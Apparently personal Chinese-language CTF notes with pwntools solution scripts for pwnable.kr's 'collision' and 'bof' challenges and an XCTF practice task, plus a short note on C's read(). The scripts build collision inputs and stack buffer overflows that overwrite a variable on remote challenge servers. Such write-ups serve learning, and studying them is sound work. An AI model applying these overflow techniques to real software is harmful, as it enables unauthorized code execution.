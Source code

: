 + `read` 函数 `ssize_t read(int fd, void * buf, size_t count);` 在 `<unistd.h>` 中，从fd指示的流中传送count个字符到 `buf` 里面去。`0` 是 `stdin` ，`1` 是 `stdout` ，`2` 是 `stderr` 。



## collision

```python
import struct
a = 0x21DD09EC
b = a // 5
c = b + 4

res = 4 * struct.pack('<i', b) + struct.pack('<i', c)
print(res)
```

```bash
./col `echo -e '\xc8\xce\xc5\x06\xc8\xce\xc5\x06\xc8\xce\xc5\x06\xc8\xce\xc5\x06\xcc\xce\xc5\x06'`
```

![image-20200927202739739](https://cdn.jsdelivr.net/gh/smallzhong/picgo-pic-bed@master/image-20200927202739739.png)



## 攻防世界第一题

```python
from pwn import *

r = remote("220.249.52.133",52438)

payload = 'a' * (0x20 - 0x18) + p64(1926)

r.recvuntil("What's Your Birth?\n")

r.sendline("2000")

r.recvuntil("What's Your Name?\n")

r.sendline(payload)

print(r.recv())
print(r.recv())
print(r.recv())
```





## bof

里面的 `gets` 函数不安全，导致可以修改传进来的参数。

![image-20200927204739206](https://cdn.jsdelivr.net/gh/smallzhong/picgo-pic-bed@master/image-20200927204739206.png)

而 `s` 变量在 `0x2c` 处，传进来的变量在 `0x08` 处，只要覆盖原来的变量替换成需要的值即可

![image-20200927204908459](https://cdn.jsdelivr.net/gh/smallzhong/picgo-pic-bed@master/image-20200927204908459.png)

exp如下

```python
from pwn import *

r = remote("pwnable.kr",9000)

payload = 'a' * (0x2c + 0x8) + p32(0xcafebabe)

r.sendline(payload)
r.interactive()
```

